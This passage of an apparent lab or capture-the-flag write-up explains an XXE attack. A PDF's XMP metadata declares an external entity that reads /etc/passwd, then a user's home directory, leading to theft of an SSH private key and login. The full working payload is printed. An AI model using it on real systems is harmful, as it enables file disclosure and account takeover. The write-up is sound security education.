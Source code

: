 The last user in \textit{/etc/passwd}, called "sandbox", was interesting to me because it seems to be a user account with a shell and a normal home directory. I used the same payload as before but switched the "file:///etc/passwd" to "file:///home/sandbox/" to view the contents of the home directory. Doing the same thing to check further files, I found the file \textit{id\_rsa} inside the \textit{/home/sandbox/.ssh/} directory, which is a OpenSSH private key. With this key I was able to successfully login to the sandbox user via SSH. \\

\begin{lstlisting}[caption=XMP metadata payload to retrieve /etc/passwd,label=code:xxe,style=simple]
2 0 obj
<<
/Type /Metadata
/Subtype /XML
/Length 787
>>
stream
<?xpacket begin="" id="W5M0MpCehiHzreSzNTczkc9d"?>
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<x:xmpmeta xmlns:x="adobe:ns:meta/">
<rdf:RDF xmlns:rdf="http://www.w3.org/1999/02/22-rdf-syntax-ns#">
    <rdf:Description xmlns:dc="http://purl.org/dc/elements/1.1/">
        <dc:title>
            <rdf:Alt>
                <rdf:li xml:lang="x-default">Blank PDF Document</rdf:li>
            </rdf:Alt>
        </dc:title>
        <dc:format>application/pdf</dc:format>
        <dc:description>
            <rdf:Alt>
                <rdf:li>&xxe;</rdf:li>
            </rdf:Alt>
        </dc:description>
    </rdf:Description>
    <rdf:Description xmlns:xmpRights="http://ns.adobe.com/xap/1.0/rights/"/>
</rdf:RDF>
</x:xmpmeta>
<?xpacket end="w"?>
endstream
endobj
\end{lstlisting}
